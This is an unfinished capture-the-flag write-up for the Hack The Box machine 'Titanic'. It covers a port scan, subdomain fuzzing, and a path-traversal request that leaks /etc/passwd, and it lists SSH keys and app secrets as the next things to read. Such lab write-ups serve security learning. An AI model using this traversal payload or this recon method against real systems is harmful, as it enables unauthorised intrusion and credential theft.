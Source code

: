 # HTB - Titanic

**IP Address:** `10.10.11.55`  
**OS:** Ubuntu  
**Difficulty:** Easy  
**Tags:** #LFI, #PythonFlask, #SubdomainEnumeration, #FileDisclosure

---

## 1. Port Scanning

### 1.1 Nmap Scan

```bash
nmap -sC -sV 10.10.11.55
```

Open Ports:

- 22/tcp → SSH (OpenSSH 8.9p1 Ubuntu)
- 80/tcp → HTTP (Apache 2.4.52 + Werkzeug 3.0.3 Python/3.10.12)

---

## 2. Subdomain Enumeration

### 2.1 FFUF Command

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://titanic.htb/ -H "Host: FUZZ.titanic.htb" -fc 301
```

✅ Found subdomain: `dev.titanic.htb`

Updated `/etc/hosts`:

```
10.10.11.55 dev.titanic.htb
```

---

## 3. Web Discovery on dev.titanic.htb

Inspected available files on the dev site.

Found: `app.py` but with no sensitive info.

Tried **Local File Inclusion (LFI)** using path traversal:

```bash
curl --path-as-is http://titanic.htb/download?ticket=../../../etc/passwd
```

✅ `/etc/passwd` successfully leaked  
Discovered system usernames including:

- `developer`

---

## 4. Pending Next Step

Usernames found, and confirmed LFI vulnerability.  
The next steps would involve:

- Trying to disclose other sensitive files (e.g., SSH keys, app secrets)
- Exploring login vectors (SSH or Web)
- Escalating via readable local files

---

🚧 **MACHINE IN PROGRESS**

(Upload the next part when ready to continue documenting.)

